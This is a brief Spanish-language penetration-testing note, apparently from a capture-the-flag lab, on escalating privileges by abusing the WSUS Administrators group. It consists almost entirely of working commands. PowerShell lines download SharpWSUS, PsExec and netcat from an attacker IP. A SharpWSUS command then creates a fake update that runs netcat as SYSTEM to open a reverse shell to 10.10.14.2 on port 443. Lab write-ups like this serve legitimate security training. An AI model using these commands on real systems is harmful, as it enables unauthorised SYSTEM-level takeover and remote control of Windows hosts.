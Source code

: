 # Privesc

## Abuso del grupo WSUS Administrator

### Archivos necesarios
```null
iwr -uri http://10.10.14.2/SharpWSUS.exe -o SharpWSUS.exe
iwr -uri http://10.10.14.2/PsExec64.exe -o PsExec64.exe
iwr -uri http://10.10.14.2/nc.exe -o nc.exe
```

### Reverse Shell
```null
.\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\Temp\Privesc\\nc.exe -e cmd 10.10.14.2 443" /title:"ReverseShell"
```

